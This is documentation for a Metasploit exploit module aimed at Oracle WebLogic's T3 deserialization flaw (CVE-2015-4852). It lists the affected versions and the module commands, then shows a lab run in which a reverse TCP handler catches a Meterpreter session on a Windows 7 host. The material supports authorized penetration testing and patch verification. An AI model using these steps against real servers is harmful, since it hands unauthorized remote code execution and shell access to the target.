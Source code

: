 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerable (CVE 2015-4852), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.
## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0.
## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_rawobject`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 5. `exploit`
## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > exploit

 [*] Started reverse TCP handler on 192.168.192.136:4444 
 [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 7 opened (192.168.192.136:4444 -> 192.168.192.6:49266) at 2018-12-14 11:40:29 -0800
 
 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows
 ```
